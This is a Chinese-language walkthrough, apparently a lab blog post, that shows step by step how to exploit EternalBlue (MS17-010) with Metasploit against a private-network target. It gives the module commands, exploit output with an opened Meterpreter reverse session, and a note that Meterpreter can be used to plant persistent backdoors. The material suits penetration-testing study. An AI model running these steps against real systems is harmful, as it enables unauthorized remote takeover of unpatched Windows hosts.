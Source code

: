搜索永恒之蓝漏洞利用模块

```bash
search ms17_010
```

看到漏洞模块里的永恒之蓝漏洞

![4](https://the0n3.top/medias/永恒之蓝/4.png)

使用永恒之蓝漏洞模块

```bash
use 1
```

显示该漏洞模块配置项

```bash
show options
```

![5](https://the0n3.top/medias/永恒之蓝/5.png)


set命令设置靶机ip地址

```bash
set rhost 192.168.237.146
```

使用`run`命令或者`exploit`命令执行漏洞利用

```bash
run
```

![6](https://the0n3.top/medias/永恒之蓝/6.png)


运行结束后，底部出现`meterpreter`，说明成功获取到目标主机的shell权限

```plaintext
[*] 192.168.237.146:445 - Sending egg to corrupted connection.
[*] 192.168.237.146:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 192.168.237.146
[+] 192.168.237.146:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.237.146:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.237.146:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (192.168.237.128:4444 -> 192.168.237.146:49158) at 2024-12-03 20:52:38 +0800

meterpreter > 
```

::: tip
运行成功会出现`meterpreter >`
Meterpreter 是 Metasploit 的一个扩展模块，可以调用 Metasploit 的一些功能，
对目标系统进行更深入的渗透，如获取屏幕、上传/下载文件、创建持久后门等。
:::
